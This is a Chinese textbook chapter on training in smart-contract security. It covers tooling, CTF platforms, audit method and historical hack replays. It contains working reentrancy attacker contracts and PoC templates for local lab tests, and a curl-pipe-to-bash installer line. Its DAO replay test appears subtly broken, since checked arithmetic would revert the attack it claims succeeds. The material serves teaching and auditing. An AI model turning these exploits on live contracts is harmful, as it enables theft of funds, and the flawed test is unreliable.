

# 第21章 区块链安全 — 练习方法

区块链安全是一门高度依赖实践的学科。仅靠阅读漏洞原理远远不够，必须通过编码、攻击、防御的完整闭环才能真正建立安全直觉。本章提供一套从零基础到专业审计员的系统化练习体系，涵盖环境搭建、靶场训练、审计实战、竞赛参与和深度研究五个递进阶段。

## 21.1 基础技能训练

### 21.1.1 Solidity编程基础

安全研究的前提是能读懂和编写智能合约。Solidity是EVM生态的主力语言，必须先建立扎实的编程基础，然后才能识别代码中的安全缺陷。

**学习路径设计**：

学习Solidity不应直接跳入安全漏洞，而是按照"语法→标准→模式→安全"的顺序递进：

| 阶段 | 内容 | 推荐资源 | 预计时间 |
|------|------|----------|----------|
| 语法入门 | 变量类型、函数、控制流、事件、修饰器 | CryptoZombies（cryptozombies.io） | 1-2周 |
| 标准理解 | ERC-20、ERC-721、ERC-1155代币标准 | Solidity by Example（solidity-by-example.org） | 1-2周 |
| 开发模式 | 工厂模式、代理模式、访问控制模式 | OpenZeppelin Contracts源码阅读 | 2-3周 |
| 安全视角 | 常见漏洞模式、Gas优化、形式化验证入门 | Ethernaut + 本章后续内容 | 持续进行 |

**关键知识点详解**：

1. **Gas机制理解**：每个EVM操作码都有固定的Gas成本。存储操作（SSTORE）最昂贵，首次写入非零值消耗20,000 Gas，修改为零退还Gas。理解Gas机制不仅帮助优化合约，更能识别攻击者利用Gas限制实施的拒绝服务攻击。

2. **OpenZeppelin库使用**：不要从零编写安全相关的基础组件。OpenZeppelin经过大量审计和实战检验，其AccessControl、ReentrancyGuard、Pausable、SafeERC20等组件应作为标准基础设施使用。阅读其源码本身也是优秀的学习材料——每个组件都附带详细的NatSpec注释和安全考量说明。

3. **ABI编码机制**：理解calldata的编码方式（函数选择器+参数ABI编码）是分析delegatecall漏洞、低级调用攻击的基础。掌握abi.encode、abi.encodePacked、abi.encodeWithSignature的区别，特别是abi.encodePacked的哈希碰撞风险。

### 21.1.2 开发环境搭建

本地开发环境是所有后续练习的基础。推荐两套主流框架，根据个人偏好选择其一深入掌握。

**方案一：Foundry（推荐）**

Foundry是用Rust编写的Solidity开发框架，以其极快的测试速度和原生的fuzz测试支持著称，是安全研究员的首选工具：

```bash
# 安装Foundry
curl -L https://foundry.paradigm.xyz | bash
foundryup

# 创建安全实验室项目
forge init security-lab && cd security-lab

# 安装依赖
forge install OpenZeppelin/openzeppelin-contracts
forge install foundry-rs/forge-std

# 项目结构
# security-lab/
# ├── lib/                  # 第三方库
# │   ├── openzeppelin-contracts/
# │   └── forge-std/
# ├── src/                  # 合约源码
# ├── test/                 # 测试文件
# ├── script/               # 部署脚本
# └── foundry.toml          # 配置文件
```

在`foundry.toml`中配置Remappings和优化选项：

```toml
[profile.default]
src = "src"
out = "out"
libs = ["lib"]
remappings = [
    "@openzeppelin/=lib/openzeppelin-contracts/",
    "@forge-std/=lib/forge-std/",
]
optimizer = true
optimizer_runs = 200
fuzz = { runs = 1000 }

[rpc_endpoints]
mainnet = "${ETH_RPC_URL}"
goerli = "${GOERLI_RPC_URL}"
```

**方案二：Hardhat**

Hardhat是基于Node.js的开发框架，插件生态更丰富，适合需要复杂部署流程的项目：

```bash
mkdir security-lab && cd security-lab
npm init -y
npm install --save-dev hardhat @nomicfoundation/hardhat-toolbox
npx hardhat init
# 选择 "Create a JavaScript project"

# 安装安全分析插件
npm install --save-dev @nomiclabs/hardhat-ethers
npm install --save-dev hardhat-gas-reporter
npm install --save-dev solidity-coverage
```

**框架对比**：

| 特性 | Foundry | Hardhat |
|------|---------|---------|
| 语言 | Solidity原生测试 | JavaScript/TypeScript |
| 测试速度 | 极快（Rust实现） | 较快 |
| Fuzz测试 | 内置支持 | 需要插件 |
| Fork测试 | 原生支持（forge test --fork-url） | 原生支持 |
| 调试 | forge debug（CLI） | hardhat-tracer + console.log |
| 插件生态 | 快速增长中 | 非常丰富 |
| 学习曲线 | 需要熟悉Solidity测试 | JS开发者更友好 |
| 社区活跃度 | 安全研究社区首选 | DApp开发社区主流 |

**建议**：安全研究者优先学习Foundry，其Solidity原生测试、高性能fuzz、内置fork等功能更适合安全分析工作流。如果团队以JavaScript为主，Hardhat也是成熟的选择。

### 21.1.3 区块链基础概念巩固

安全研究需要对底层机制有透彻理解，以下概念必须掌握：

1. **交易生命周期**：从交易构造、签名、广播、mempool、打包、执行到确认的完整流程。理解这个流程才能理解前置运行（frontrunning）攻击的原理。

2. **EVM执行模型**：调用栈深度限制（1024）、内存扩展成本、存储布局（slot 0开始顺序排列）、映射类型存储位置（keccak256(key . slot)）。这些是理解存储碰撞、delegatecall安全问题的基础。

3. **Gas经济学**：EIP-1559后的Base Fee + Priority Fee机制、Gas Limit与Gas Used的区别、Gas估算失败的常见原因。攻击者经常利用Gas机制实施经济攻击。

4. **共识与最终性**：区块确认数、重组（reorg）风险、MEV对交易排序的影响。这些概念直接影响跨链桥、预言机等基础设施的安全假设。

## 21.2 CTF靶场训练

CTF（Capture The Flag）靶场是最高效的安全学习方式——每个关卡对应一个真实漏洞类型，通过编写攻击合约来"夺旗"，将抽象的漏洞知识转化为可操作的技能。

### 21.2.1 Ethernaut（入门级）

Ethernaut是OpenZeppelin推出的智能合约安全CTF平台，共30+个关卡，覆盖从基础到高级的各种漏洞类型。这是区块链安全学习的第一站。

**访问地址**：[ethernaut.openzeppelin.com](https://ethernaut.openzeppelin.com)

**推荐学习顺序与核心知识点**：

前10关按难度递进排列，每关解决后务必阅读官方题解和其他玩家的解法，往往一个题目有多种攻击路径：

| 序号 | 关卡名 | 漏洞类型 | 核心知识点 |
|------|--------|----------|------------|
| 1 | Hello Ethernaut | 基础操作 | 熟悉浏览器钱包交互、控制台操作、合约ABI调用 |
| 2 | Fallback | receive/fallback | 合约接收ETH的条件、receive与fallback的触发优先级 |
| 3 | Fallout | 构造函数拼写错误 | Solidity 0.4.x的构造函数命名陷阱（0.5+已用constructor关键字修复） |
| 4 | Telephone | tx.origin vs msg.sender | tx.origin是外部账户地址，msg.sender是直接调用者；中间合约可使两者不同 |
| 5 | Token | 整数溢出 | Solidity <0.8.0无内置溢出检查；无符号整数下溢到UINT256_MAX |
| 6 | Delegation | delegatecall | delegatecall在调用者的上下文中执行被调用合约的代码，可覆盖调用者的存储 |
| 7 | Force | selfdestruct | 即合约没有receive/fallback，selfdestruct也能强制向其发送ETH |
| 8 | Vault | private变量可见性 | 区块链上没有真正的隐私，private只阻止其他合约读取，storage slot可直接查询 |
| 9 | King | 拒绝服务 | 如果receive/fallback消耗过多Gas或revert，可以永久阻止新King被设置 |
| 10 | Re-entrancy | 重入攻击 | 状态更新在外部调用之后，攻击者可在状态更新前反复提取资金 |

**练习方法论——四步法**：

1. **独立分析（30分钟）**：不看任何提示，仔细阅读合约代码，尝试找出所有可能的攻击向量。记录你的思考过程。

2. **编写攻击（30分钟）**：根据分析结果编写攻击合约。在Foundry本地环境中测试，而不是直接在网页上提交。本地测试可以反复调试，理解每一步的状态变化。

3. **对比学习（15分钟）**：完成关卡后，搜索其他玩家的解法。比较不同的攻击路径，理解哪些更优雅、更高效。

4. **修复练习（15分钟）**：为原始合约编写修复版本，重新部署并验证修复有效。这一步最容易被跳过，但对建立防御思维至关重要。

**Ethernaut本地练习模板（Foundry）**：

```solidity
// test/Ethernaut_Reentrancy.tst
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";

// 粘贴Ethernaut关卡的合约代码
contract VulnerableBank {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint256 amount = balances[msg.sender];
        require(amount > 0, "No balance");
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");
        balances[msg.sender] = 0;
    }

    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}

contract AttackReentrancy {
    VulnerableBank public bank;
    uint256 public count;

    constructor(address _bank) {
        bank = VulnerableBank(_bank);
    }

    function attack() external payable {
        bank.deposit{value: msg.value}();
        bank.withdraw();
    }

    receive() external payable {
        if (address(bank).balance >= 1 ether) {
            count++;
            bank.withdraw();
        }
    }
}

contract ReentrancyTest is Test {
    VulnerableBank bank;
    AttackReentrancy attacker;
    address user1 = makeAddr("user1");
    address attackerAddr = makeAddr("attacker");

    function setUp() public {
        bank = new VulnerableBank();
        // 用户存入资金
        vm.deal(user1, 10 ether);
        vm.startPrank(user1);
        bank.deposit{value: 10 ether}();
        vm.stopPrank();
    }

    function testReentrancyAttack() public {
        vm.deal(attackerAddr, 1 ether);

        vm.startPrank(attackerAddr);
        attacker = new AttackReentrancy(address(bank));
        attacker.attack{value: 1 ether}();
        vm.stopPrank();

        // 验证攻击成功：合约资金被清空
        assertEq(address(bank).balance, 0);
        // 攻击者获得全部资金
        assertEq(address(attacker).balance, 11 ether);
        // 记录重入次数
        emit log_named_uint("Reentry count", attacker.count());
    }
}
```

运行测试：`forge test --match-contract ReentrancyTest -vvvv`（-vvvv显示详细的调用追踪）。

### 21.2.2 Damn Vulnerable DeFi（中级）

Damn Vulnerable DeFi由tinchoabbate开发，专注于DeFi协议安全，难度显著高于Ethernaut。每个挑战模拟真实DeFi协议的关键功能，要求利用闪电贷、预言机、治理等机制实施攻击。

**访问地址**：[damnvulnerabledefi.xyz](https://damnvulnerabledefi.xyz)

**环境搭建**：

```bash
git clone https://github.com/tinchoabbate/damn-vulnerable-defi
cd damn-vulnerable-defi
npm install
# 所有挑战在 test/ 目录下
# 合约在 contracts/ 目录下
```

**挑战详解与学习重点**：

| 序号 | 挑战名 | 核心漏洞 | 真实对应事件 |
|------|--------|----------|--------------|
| 1 | Unstoppable | 闪电贷前置条件检查绕过 | 闪电贷合约的余额断言陷阱 |
| 2 | Naive Receiver | 无授权的代币转移 | approve/transferFrom滥用 |
| 3 | Truster | 任意外部调用 | flashLoan中的target.call(data) |
| 4 | Side Entrance | 余额操纵 | 重入与会计系统不一致 |
| 5 | The Rewarder | 奖励机制操纵 | 首次存款者获得不成比例的奖励 |
| 6 | Selfie | 治理攻击 | 闪电贷获取投票权→提案→执行 |
| 7 | Compromised | 预言机操纵 | 低流动性价格源被操控 |
| 8 | Puppet | 价格操纵 | Uniswap V1价格依赖被闪电贷扭曲 |
| 9 | Backdoor | 代币授权漏洞 | Gnosis Safe代理初始化漏洞 |
| 10 | Climber | 时间锁绕过 | 漏洞可让任意操作被计划和执行 |
| 11 | Puppet V2 | Uniswap V2价格操纵 | TWAP未累积导致瞬时价格可操控 |
| 12 | Free Rider | NFT市场漏洞 | 买方资金由闪电贷提供但卖方先收到 |

**每个挑战的标准解题流程**：

```solidity
// test/[challenge-name].sol
// 1. 分析题目合约，理解正常业务流程
// 2. 识别攻击条件（题目中的 success 条件）
// 3. 设计攻击路径
// 4. 实现 exploit 合约

contract Exploit {
    // 构造函数接收必要的合约地址
    constructor(/* ... */) {}

    // 攻击入口函数
    function attack() external {
        // 步骤1: 获取闪电贷
        // 步骤2: 利用漏洞
        // 步骤3: 归还闪电贷
        // 步骤4: 转移收益
    }

    // 可能需要的回调函数
    receive() external payable {}
}
```

### 21.2.3 Paradigm CTF（高级）

Paradigm CTF是由Paradigm投资公司主办的顶级区块链安全竞赛，题目难度代表行业最高水准。

**特点详解**：

- **题目范围广**：涵盖Solidity（EVM）、Rust（Solana/Cosmos）、Go（链层）等多种语言
- **创新性强**：每年都会出现全新的漏洞类型和攻击手法
- **综合性高**：单一题目可能需要结合密码学、逆向工程、链上分析等多项技能
- **时间压力**：竞赛模式下需要在有限时间内完成，训练快速分析能力

**历年经典题目回顾**：

- **2022年 - Hello**: 利用CREATE2预计算合约地址，在目标合约部署前预先设置陷阱
- **2022年 - Just-in-Time**: 理解MEV搜索者的行为模式，利用交易排序获利
- **2023年 - Mirror**: Solana程序中的账户验证漏洞，缺少所有权和类型检查

**备赛策略**：

1. 先完成Ethernaut全部关卡和Damn Vulnerable DeFi全部挑战
2. 研究历年Paradigm CTF的官方题解（通常在GitHub公开）
3. 关注Paradigm的security-research博客，了解最新的攻击手法
4. 练习在时间压力下快速阅读和分析陌生合约
5. 建立个人的工具库（常用攻击合约模板、fuzz配置模板等）

### 21.2.4 其他优质靶场

除上述三大平台外，以下靶场也值得练习：

**Ethernaut CTF（新版本）**：在原版基础上增加了更多DeFi相关题目，特别是MEV和跨链桥相关的挑战。

**Capture the Ether（归档版）**：早期的以太坊安全CTF，虽然较老但涵盖了经典漏洞类型。题目可在GitHub找到归档版本。

**QuillCTF**：Quill Audits推出的CTF平台，每周发布新题目，难度从入门到高级覆盖。特点是题目设计紧贴最新的攻击趋势。

**DeFiHackLabs**：包含大量真实攻击事件的复现实验室。每个lab对应一个真实被攻击的协议，提供完整的攻击交易和漏洞分析。

## 21.3 审计实践

CTF靶场是针对单一漏洞的精确打击，而真实审计需要在复杂系统中发现未知漏洞。从靶场到审计的过渡是安全学习中最关键的跃迁。

### 21.3.1 审计入门项目

开始审计实践时，选择项目应遵循"单一功能→多合约→完整协议"的渐进路线：

**第一阶段：单一合约审计（1-2周/个）**

1. **ERC-20代币合约**：审查transfer、approve、transferFrom的安全性。重点关注approve前端运行攻击、余额溢出、事件发射顺序。手写一个不使用OpenZeppelin的ERC-20，然后尝试自己审计它。

2. **简单拍卖合约**：审查竞拍逻辑、退款机制、时间控制。重点关注重入漏洞（bid时的回调）、前端运行（看到他人的bid后抢先提交）、最后时刻出价（sniping）的处理。

3. **时间锁合约**：审查延迟执行机制、取消逻辑、权限控制。重点关注时间戳操纵、紧急取消的访问控制、执行窗口的安全性。

**第二阶段：多合约系统审计（2-3周/个）**

4. **DEX（去中心化交易所）**：审查流动性添加/移除、价格计算、手续费分配。重点关注价格滑点保护、流动性提供者的无常损失、整数精度问题。

5. **借贷协议**：审查抵押率计算、清算逻辑、利率模型。重点关注预言机价格操纵、闪电贷攻击、清算瀑布效应。

6. **跨链桥**：审查消息验证、资产锁定/铸造、重放保护。重点关注签名验证、中继器信任模型、重放攻击防护。

### 21.3.2 标准审计流程

模拟专业审计公司的完整工作流程。每个步骤都应该有明确的交付物：

**Step 1：范围界定与信息收集（总时间的10%）**

- 获取所有需要审计的合约源码和文档
- 确认编译器版本、依赖库版本、已部署的地址
- 理解项目的业务模型和经济机制
- 识别信任边界：哪些角色被信任？信任假设是什么？
- 交付物：审计范围文档、关键假设列表

**Step 2：架构分析（总时间的15%）**

- 绘制合约间的调用关系图（可用Mermaid或工具生成）
- 识别关键的状态变量和修改路径
- 分析资金流向：ETH和代币如何在合约间流转
- 标记特权角色及其权限范围
- 交付物：架构图、资金流图、权限矩阵

**Step 3：逐行代码审查（总时间的45%）**

这是审计的核心环节。采用系统化的方法，按漏洞类别逐一检查：

```markdown
## 代码审查检查清单

### 访问控制
- [ ] 所有敏感函数是否有适当的访问控制修饰器
- [ ] onlyOwner / onlyRole 是否正确实现
- [ ] 初始化函数是否防止重复调用
- [ ] 代理模式的初始化是否安全

### 重入安全
- [ ] 所有状态更新是否在外部调用之前
- [ ] 是否使用了ReentrancyGuard
- [ ] 跨函数重入是否被考虑
- [ ] ERC-777的transferHook是否被处理

### 整数安全
- [ ] 是否使用Solidity >=0.8.0（内置溢出检查）
- [ ] 除法是否有精度损失风险
- [ ] 乘法是否有中间结果溢出风险
- [ ] 价格计算是否有舍入方向问题

### 外部调用安全
- [ ] 外部调用的返回值是否被检查
- [ ] 低级call的Gas限制是否合理
- [ ] delegatecall的目标是否可信
- [ ] 外部输入是否被验证

### 逻辑安全
- [ ] 状态机的转换是否完整
- [ ] 竞态条件是否被处理
- [ ] 时间戳依赖是否安全（允许15秒误差）
- [ ] 区块号依赖是否安全

### 经济安全
- [ ] 闪电贷攻击是否被考虑
- [ ] 预言机价格是否可被操纵
- [ ] 奖励机制是否可被博弈
- [ ] 抢跑攻击（frontrunning）是否被缓解
```

**Step 4：漏洞验证与PoC编写（总时间的20%）**

每个发现的漏洞都需要编写概念验证（Proof of Concept），证明漏洞确实可被利用：

```solidity
// PoC模板
contract PoC_VulnName is Test {
    TargetContract target;

    function setUp() public {
        // 部署目标合约和依赖
        target = new TargetContract();
    }

    function testExploit() public {
        // 记录攻击前状态
        uint256 beforeBalance = address(this).balance;

        // 执行攻击
        // ...

        // 验证攻击成功
        uint256 profit = address(this).balance - beforeBalance;
        assertGt(profit, 0);
        emit log_named_uint("Profit", profit);
    }
}
```

**Step 5：报告撰写（总时间的10%）**

专业审计报告的标准结构：

```text
1. 执行摘要（Executive Summary）
   - 审计范围、时间、团队
   - 关键发现摘要
   - 总体风险评估

2. 发现详情（Findings）
   每个发现包含：
   - 标题和唯一编号
   - 严重程度（Critical/High/Medium/Low/Informational）
   - 漏洞描述（发生了什么）
   - 影响分析（攻击者能获得什么）
   - 漏洞位置（文件名:行号）
   - 概念验证（可复现的测试代码）
   - 修复建议（具体的代码修改）
   - 参考资料

3. 架构评审（Architecture Review）
   - 系统架构分析
   - 设计模式评估
   - 信任模型分析

4. 附录
   - 工具使用记录
   - 详细测试日志
```

### 21.3.3 安全工具实战

掌握自动化工具能大幅提升审计效率，但工具不能替代人工审查。以下是三个最核心的工具及其使用方法：

**Slither——静态分析**

Slither由Trail of Bits开发，是最广泛使用的Solidity静态分析工具。它通过控制流图分析检测100+种漏洞模式：

```bash
# 安装
pip3 install slither-analyzer

# 基本使用：运行所有检测器
slither ./contracts/

# 仅运行特定检测器
slither ./contracts/ --detect reentrancy-eth,reentrancy-no-eth

# 生成人类可读摘要
slither ./contracts/ --print human-summary

# 生成调用图
slither ./contracts/ --print call-graph

# 列出所有可用检测器
slither --list-detectors
```

Slither的核心检测器及误报率：

| 检测器 | 检测内容 | 典型误报率 |
|--------|----------|------------|
| reentrancy-eth | ETH重入（send/call后有状态变更） | 中等——需要人工验证是否构成真正风险 |
| reentrancy-no-eth | 存储重入（无ETH转移的重入） | 较高——许多是无害的读-写模式 |
| unchecked-transfer | 未检查的transfer返回值 | 低——通常是真实问题 |
| arbitrary-from | ERC20的transferFrom使用msg.sender以外的地址 | 低 |
| controlled-delegatecall | delegatecall目标可控 | 中等——需要分析调用者权限 |
| timestamp-dependence | block.timestamp依赖 | 较高——15秒窗口内使用通常安全 |
| tx-origin | 使用tx.origin进行授权 | 低——几乎总是安全问题 |

**Mythril——符号执行**

Mythril使用符号执行和SMT求解器探索所有可能的执行路径，能发现静态分析遗漏的复杂漏洞：

```bash
# 安装
pip3 install mythril

# 分析单个合约
myth analyze ./contracts/Vault.sol

# 设置执行超时（秒）
myth analyze ./contracts/Vault.sol --execution-timeout 300

# 分析已部署的合约
myth analyze 0xContractAddress --rpc infura-key

# 指定求解器超时
myth analyze ./contracts/Vault.sol --solver-timeout 10000
```

Mythril的优势在于能处理复杂的路径条件，但代价是分析速度较慢。对于大型合约，建议设置合理的超时时间（60-300秒），避免无限探索。

**Echidna——模糊测试**

Echidna是针对Solidity的属性测试（property-based testing）工具，通过随机输入探索合约状态空间：

```solidity
// contracts/echidna/EchidnaTest.sol
// 编写不变量（invariants），Echidna会尝试违反它们

contract EchidnaTest {
    TargetContract public target;
    uint256 public initialBalance;

    constructor() {
        target = new TargetContract();
        initialBalance = address(target).balance;
    }

    // 不变量：合约余额不应低于初始值
    function echidna_balance_check() public view returns (bool) {
        return address(target).balance >= initialBalance;
    }

    // 不变量：任何用户的余额不应超过总供应量
    function echidna_supply_check(address user) public view returns (bool) {
        return target.balanceOf(user) <= target.totalSupply();
    }

    // 操作函数：Echidna会随机调用这些函数
    function deposit(uint256 amount) public {
        if (amount > 0 && amount < 100 ether) {
            target.deposit{value: amount}();
        }
    }

    function withdraw(uint256 amount) public {
        target.withdraw(amount);
    }
}
```

```bash
# 运行Echidna
echidna-test ./contracts/echidna/ --contract EchidnaTest --config echidna.yaml
```

```yaml
# echidna.yaml配置
testLimit: 50000        # 测试轮数
stopOnFail: false       # 发现问题后继续探索
shrinkLimit: 5000       # 反例精简轮数
seqLen: 100             # 每轮最大操作数
deployer: "0x10000"     # 部署者地址
sender: ["0x10000", "0x20000", "0x30000"]  # 发送者地址
cryticArgs: ["--solc-remaps", "@openzeppelin=node_modules/@openzeppelin"]
```

## 21.4 竞赛参与

### 21.4.1 审计竞赛平台

审计竞赛平台是将技能变现的最佳途径。参与者竞相审计同一项目，发现漏洞获得奖金。这不仅锻炼审计能力，还能建立行业声誉和获得收入。

**主要平台对比**：

| 平台 | 模式 | 平均奖金范围 | 特点 |
|------|------|-------------|------|
| Code4rena（C4） | 公开竞赛 | $500-$50,000 | 最大平台，参与者最多，竞争激烈 |
| Sherlock | 公开竞赛+保险 | $1,000-$100,000 | 提供漏洞保险，审计后项目可购买保险 |
| Immunefi | 漏洞赏金（持续） | $500-$10,000,000 | 持续的漏洞赏金计划，非竞赛模式 |
| Hats Finance | 去中心化赏金 | $500-$50,000 | 基于智能合约的赏金分配 |
| CodeHawks | 公开竞赛 | $500-$30,000 | Cyfrin推出的竞赛平台 |
| Cantina | 公开竞赛 | $1,000-$100,000 | 由Spearbit团队运营 |

**竞赛参与策略**：

1. **选择赛道**：不要试图审计所有类型的协议。选择2-3个你熟悉的领域（如借贷、DEX、NFT），成为这些领域的专家。专注比广泛更能产出高质量发现。

2. **赛前准备**：竞赛开始前30分钟内完成范围界定和架构分析。快速识别关键合约和高风险函数。优先审查资金进出路径。

3. **时间分配**：一个典型的5天竞赛，建议分配为：
   - Day 1：架构分析 + 关键路径审查
   - Day 2-3：逐行深度审查
   - Day 4：自动化工具扫描 + 交叉验证
   - Day 5：报告撰写 + 最终检查

4. **报告质量**：在C4等平台，报告质量直接影响奖励分配。一份结构清晰、有PoC代码、修复建议具体的报告，即使漏洞严重程度不高，也可能获得比简单报告更高的奖励。

### 21.4.2 CTF竞赛

除审计竞赛外，纯技术型CTF竞赛也是提升能力的好方式：

- **Paradigm CTF**：年度顶级竞赛，通常在DEF CON期间举办
- **Curta CTF**：专注于MEV和DeFi安全的系列赛
- **BlazCTF**：由Blazella举办的高难度竞赛
- **Ethernaut DAO CTF**：定期举办，适合中级水平

## 21.5 深度研究

### 21.5.1 安全报告研读

阅读顶级安全公司的审计报告是学习高级审计技巧的捷径。这些报告不仅展示了发现的漏洞，更展示了发现漏洞的思维过程。

**报告来源与特点**：

| 来源 | 报告风格 | 重点关注 |
|------|----------|----------|
| Trail of Bits | 技术深度极高，附带大量背景知识 | 他们如何建模威胁、如何设计测试 |
| OpenZeppelin | 结构严谨，修复建议具体 | 他们的报告模板和分类方法 |
| Consensys Diligence | 覆盖面广，包含架构建议 | 他们对DeFi经济模型的分析方法 |
| Spearbit | 新锐团队，报告质量高 | 他们如何处理复杂的跨链和MEV问题 |
| PeckShield | 速度快，覆盖面广 | 他们对实时攻击的分析方法 |
| SlowMist | 中文报告友好，覆盖面广 | 他们的攻击链追踪方法 |

**高效阅读方法**：

不要被动阅读每一份报告。采用以下方法最大化学习效果：

1. **主题式阅读**：选择一个漏洞类型（如重入攻击），搜索所有包含该漏洞的报告，对比不同协议中的不同表现形式。

2. **根因分析**：每个漏洞追问三个问题——为什么会产生？为什么没有被开发团队发现？为什么审计公司能发现？

3. **修复验证**：阅读修复代码，判断修复是否完整。很多"修复"只堵住了报告中的具体攻击路径，而没有解决根本问题。

### 21.5.2 历史攻击复现

在本地环境中复现真实攻击事件是最深刻的学习方式。通过亲手执行攻击，你能理解攻击者的思维、工具链和决策过程。

**复现环境搭建**：

```bash
# 使用Foundry fork功能复现攻击
# fork攻击发生前一刻的链上状态

# 1. 获取RPC节点（推荐Alchemy或Infura）
export ETH_RPC_URL="https://eth-mainnet.g.alchemy.com/v2/YOUR_KEY"

# 2. fork指定区块
forge test --fork-url $ETH_RPC_URL --fork-block-number <攻击前区块号> -vvvv

# 3. 在测试中重现攻击交易
```

**推荐复现的经典事件及关键知识点**：

| 事件 | 年份 | 损失金额 | 核心漏洞 | 复现难度 |
|------|------|----------|----------|----------|
| The DAO | 2016 | $60M | 重入攻击 | 低——代码简单，漏洞经典 |
| Parity Wallet | 2017 | $150M(冻结) | 初始化未保护 | 低——理解delegatecall即可 |
| bZx (Fulcrum) | 2020 | $1M | 闪电贷+价格操纵 | 中——需要理解Uniswap价格机制 |
| Harvest Finance | 2020 | $34M | 价格操纵+套利 | 中——需要理解curve.finance的定价逻辑 |
| Cream Finance | 2021 | $130M | 闪电贷+重入 | 中高——涉及多个合约交互 |
| Wormhole | 2022 | $320M | 签名验证绕过 | 高——需要理解Solana的签名验证机制 |
| Beanstalk | 2022 | $182M | 治理攻击+闪电贷 | 中——需要理解治理提案和执行的时间线 |
| Euler Finance | 2023 | $197M | donate+清算绕过 | 高——需要深入理解Euler的eToken/dToken机制 |

**The DAO重入攻击复现示例**：

```solidity
// test/TheDAO_Reentrancy.tst
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";

// 简化的The DAO合约
contract TheDAO {
    mapping(address => uint256) public balances;
    uint256 public totalSupply;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
        totalSupply += msg.value;
    }

    function withdraw(uint256 _amount) public {
        require(balances[msg.sender] >= _amount, "Insufficient balance");
        // 漏洞：先发送ETH，再更新状态
        (bool success, ) = msg.sender.call{value: _amount}("");
        require(success, "Transfer failed");
        balances[msg.sender] -= _amount;
        totalSupply -= _amount;
    }
}

contract TheDAOAttacker {
    TheDAO public dao;
    uint256 public amount;

    constructor(address _dao) {
        dao = TheDAO(payable(_dao));
    }

    function attack() external payable {
        amount = msg.value;
        dao.deposit{value: msg.value}();
        dao.withdraw(msg.value);
    }

    receive() external payable {
        if (address(dao).balance >= amount) {
            dao.withdraw(amount);
        }
    }
}

contract DAOTest is Test {
    TheDAO dao;
    TheDAOAttacker attacker;
    address victim = makeAddr("victim");

    function setUp() public {
        dao = new TheDAO();
        // 100个用户各存入1 ETH
        for (uint256 i = 0; i < 100; i++) {
            address user = address(uint160(i + 1));
            vm.deal(user, 1 ether);
            vm.prank(user);
            dao.deposit{value: 1 ether}();
        }
    }

    function testDAOReentrancy() public {
        address attackerAddr = makeAddr("attacker");
        vm.deal(attackerAddr, 1 ether);

        vm.startPrank(attackerAddr);
        attacker = new TheDAOAttacker(address(dao));
        attacker.attack{value: 1 ether}();
        vm.stopPrank();

        // 原始DAO有100 ETH，被攻击后全部被盗
        assertEq(address(dao).balance, 0);
        emit log_named_uint("Attacker balance", address(attacker).balance);
        // 攻击者用1 ETH本金获得全部101 ETH
        assertEq(address(attacker).balance, 101 ether);
    }
}
```

### 21.5.3 个人安全工具开发

开发自己的安全工具不仅能加深对漏洞的理解，还能在审计工作中提升效率。以下是几个实用的工具开发方向：

**1. 事件监控器**

```python
# monitor.py - 监控大额转账和可疑操作
from web3 import Web3
import json

w3 = Web3(Web3.HTTPProvider("https://eth-mainnet.g.alchemy.com/v2/YOUR_KEY"))

# 关注的事件签名
TRANSFER_TOPIC = Web3.keccak(text="Transfer(address,address,uint256)").hex()
APPROVAL_TOPIC = Web3.keccak(text="Approval(address,address,uint256)").hex()

def monitor_blocks():
    latest = w3.eth.block_number
    while True:
        new_block = w3.eth.block_number
        if new_block > latest:
            block = w3.eth.get_block(new_block, full_transactions=True)
            for tx in block.transactions:
                # 检查是否是合约交互
                if tx.to and len(tx.input) > 4:
                    logs = w3.eth.get_transaction_receipt(tx.hash).logs
                    for log in logs:
                        if log.topics and log.topics[0].hex() == TRANSFER_TOPIC:
                            value = int(log.data.hex(), 16)
                            if value > 10**18 * 1000:  # > 1000 tokens
                                print(f"Large transfer detected in block {new_block}")
                                print(f"  TX: {tx.hash.hex()}")
                                print(f"  Value: {value}")
            latest = new_block
```

**2. 合约存储布局分析器**

```solidity
// StorageInspector.sol
// 在Foundry中使用，分析任意合约的存储布局

import "forge-std/Test.sol";

contract StorageInspector is Test {
    function inspectStorage(address target, uint256 slotCount) public {
        for (uint256 i = 0; i < slotCount; i++) {
            bytes32 value = vm.load(target, bytes32(i));
            if (value != bytes32(0)) {
                emit log_named_bytes32(
                    string.concat("Slot ", vm.toString(i)),
                    value
                );
            }
        }
    }
}
```

**3. 交易模拟器**：使用Foundry的`vm.prank`和`vm.deal`在本地模拟任意历史交易，观察状态变化。

**4. 合约差异比较工具**：对比同一合约在不同版本间的存储布局变化，检测升级是否安全。

## 21.6 学习路径与进阶建议

### 21.6.1 分阶段学习路线图



### 21.6.2 每阶段的具体目标与检验标准

**第一阶段（1-3个月）：基础建设**

| 目标 | 检验标准 | 推荐资源 |
|------|----------|----------|
| 掌握Solidity | 能独立编写ERC-20和ERC-721合约 | CryptoZombies + Solidity by Example |
| 熟练Foundry | 能用forge test编写和运行完整的测试套件 | Foundry Book（book.getfoundry.sh） |
| Ethernaut通关 | 完成全部关卡，并为每个关卡编写修复方案 | ethernaut.openzeppelin.com |
